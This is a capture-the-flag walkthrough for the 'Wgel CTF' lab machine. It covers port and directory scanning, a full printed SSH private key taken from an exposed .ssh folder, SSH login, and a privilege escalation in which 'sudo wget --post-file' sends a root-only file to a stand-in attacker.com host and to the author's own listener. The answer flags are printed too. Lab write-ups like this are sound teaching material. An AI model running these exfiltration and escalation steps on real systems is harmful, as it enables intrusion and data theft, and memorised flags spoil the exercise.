 # Wgel CTF

## #1 - User flag

Let's start by scanning the IP with nmap:

~~~
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
~~~

2 ports are open: ssh and http, both on standard ports. Let's start with http.

* No `robots.txt` file (http://10.10.251.64/robots.txt)
* When you connect, the default Apache welcome page is displayed, but there is something wrong in it. We'll see that in a moment
* dirsearch discovers a `/sitemap` directory:

~~~
$ /data/src/dirsearch/dirsearch.py -u http://10.10.251.64 -E -w /data/src/wordlists/common.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /data/src/dirsearch/logs/errors-20-05-13_23-05-49.log

Target: http://10.10.251.64

[23:05:49] Starting: 
[23:05:50] 200 -   11KB - /
[23:05:50] 403 -  278B  - /.hta
[23:06:01] 200 -   11KB - /index.html
[23:06:09] 403 -  278B  - /server-status
[23:06:10] 301 -  316B  - /sitemap  ->  http://10.10.251.64/sitemap/

Task Completed
~~~

* Connecting to http://10.10.251.64/sitemap/ shows a blog. It seems to be a wordpress installation using the unapp them from colorlib, but it's actually a fake wordpress installation (no `wp-login` or `wp-admin` path, all links are fake). Let's confirm what directories we have under `/sitemap/`:

~~~
$ /data/src/dirsearch/dirsearch.py -u http://10.10.251.64/sitemap -E -w /data/src/wordlists/common.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /data/src/dirsearch/logs/errors-20-05-13_23-04-09.log

Target: http://10.10.251.64/sitemap

[23:04:09] Starting: 
[23:04:10] 403 -  278B  - /sitemap/.hta
[23:04:10] 200 -   21KB - /sitemap/
[23:04:10] 301 -  321B  - /sitemap/.ssh  ->  http://10.10.251.64/sitemap/.ssh/
[23:04:16] 301 -  320B  - /sitemap/css  ->  http://10.10.251.64/sitemap/css/
[23:04:19] 301 -  322B  - /sitemap/fonts  ->  http://10.10.251.64/sitemap/fonts/
[23:04:21] 301 -  323B  - /sitemap/images  ->  http://10.10.251.64/sitemap/images/
[23:04:21] 200 -   21KB - /sitemap/index.html
[23:04:22] 301 -  319B  - /sitemap/js  ->  http://10.10.251.64/sitemap/js/

Task Completed
~~~

Interesting... we have a hidden `.ssh/` directory, and it contains a private key. Let's get it:

~~~
$ curl http://10.10.251.64/sitemap/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
~~~

Let's check if it is password protected:

~~~
$ /data/src/john/run/ssh2john.py id_rsa
id_rsa has no password!
~~~

No, it's not. However, to use it, we need to know what user is associated to this key.

Back to the Apache default webpage, we notice that there is somethin wrong. See the comparison between these 2 screenshots (our default page on the left, a standard Apache default page on the right).

!["apache default page"](files/apache-default-page.png)

Let's have a closer look at the source code of the page:

```html
$ curl -s http://10.10.251.64/

...[SNIP]...

          <pre>
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 <!-- Jessie don't forget to udate the webiste -->
          </pre>

...[SNIP]...

```

The offset is due to a comment that has been added to the page: `Jessie don't forget to udate the webiste`. The typo (`webiste` instead of `website`) is another indication that it has probably been manually added. Could `Jessie` be the user we are looking for?

Let's check:

~~~
chmod 600 id_rsa
ssh -i id_rsa jessie@10.10.251.64
~~~

It works! Our flag is in the `Documents` folder:

~~~
jessie@CorpOne:~$ ls -l
total 44
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Desktop
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Documents
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Downloads
-rw-r--r-- 1 jessie jessie 8980 oct 26  2019 examples.desktop
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Music
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Pictures
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Public
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Templates
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Videos
jessie@CorpOne:~$ ls -l Desktop/
total 0
jessie@CorpOne:~$ ls -l Documents/
total 4
-rw-rw-r-- 1 jessie jessie 33 oct 26  2019 user_flag.txt
jessie@CorpOne:~$ cat Documents/user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6
~~~

## #2 - Root flag

~~~
jessie@CorpOne:~$ ls -l /root/
ls: cannot open directory '/root/': Permission denied
~~~

We need to elevate our privileges. Let's start by checking our privileges:

~~~
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
~~~

We can run `wget` as root without password. Let's check [here](https://gtfobins.github.io/gtfobins/wget/) what we can do with it.

We can upload a file with sudo access:

~~~
export URL=http://attacker.com/
export LFILE=file_to_send
wget --post-file=$LFILE $URL
~~~

As the first flag was named `user_flag.txt`, the root flag will likely be `root_flag.txt`. Let's try... First open a listener on your local machine:

~~~
$ nc -nlvp 1234
~~~

And on the remote machine, enter the following command:

~~~
jessie@CorpOne:~$ sudo wget --post-file=/root/root_flag.txt 10.9.**.**:1234
--2020-05-14 09:11:19--  http://10.9.**.**:1234/
Connecting to 10.9.**.**:1234... connected.
HTTP request sent, awaiting response...
~~~

We now get the flag: `b1b968b37519ad1daa6408188649263d`
